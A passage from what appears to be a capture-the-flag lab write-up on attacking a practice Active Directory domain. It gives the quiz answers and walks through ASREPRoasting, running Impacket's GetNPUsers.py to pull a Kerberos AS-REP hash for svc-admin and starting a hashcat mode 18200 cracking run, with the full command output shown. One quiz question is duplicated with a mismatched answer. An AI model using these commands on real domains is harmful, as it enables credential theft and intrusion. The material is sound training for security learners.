 :arrow_right: `userenum`

2. What notable account is discovered? (These should jump out at you)

:arrow_right: `svc-admin`

3. What is the other notable account is discovered? (These should jump out at you)

:arrow_right: `backup`


Task5: `Exploitation` Abusing Kerberos
---------------------------------------

After the enumeration of user accounts is finished, we can attempt to abuse a feature within ***`Kerberos`*** with an attack method called ***ASREPRoasting***.

ASReproasting occurs when an user account has the privilege, "Does not require Pre-Authentication" set. This means that the account **`does not`** need to provide valid identification before requesting a <ins>Kerberos Ticket</ins> on the specified user account.

```
$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py spookysec.local/svc-admin -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:c8294dc2ac2325b184b2cee044e04b7b$e85b713a147b66a2a6c780e14b0db82ef813b0fbc8708c2f7a95b849a4e91c90e976ae1ded1d0ca4e89fc0cca8584b52008822957d310dab88db166b853b09e5b368e6feec35c22c8fa91fb023129c97b03fdd713c4965b8ce16cd478b10d654c99932e77be54e84650d57e332d78197bf7a3c77f73185d6730d8b649ad0c706903f84b3612e6374c0f37b31e502a0170b13ad184c923dc71e407511883d40864f8a22e0f2107cf4a03816fd1af1eecb4b7a3b6adf64dc27301dce9ea0075a472c16e8d2cfdf9f573b9f8b65267e837a352e6cd967689cef91934cbbe302b2db89356dfeeefa4acf20950c913bd232d80ea8
```

1. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

:arrow_right: svc-admin

2. We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

:arrow_right: `Kerberos 5, etype 23, AS-REP`


#### <ins>NOTE</ins>:
There are many forms of kerberos hashes present on the basis of the state of authentication

see: [hashcat.net/wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)


3. What mode is the hash(for hashcat)?

:arrow_right: `18200`

4. Now crack the hash with the modified password list provided, what is the user accounts password?

```
$ hashcat -m 18200 -a 0 krb_hash.txt passwordlist.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i3-7020U CPU @ 2.30GHz, 2178/2242 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
```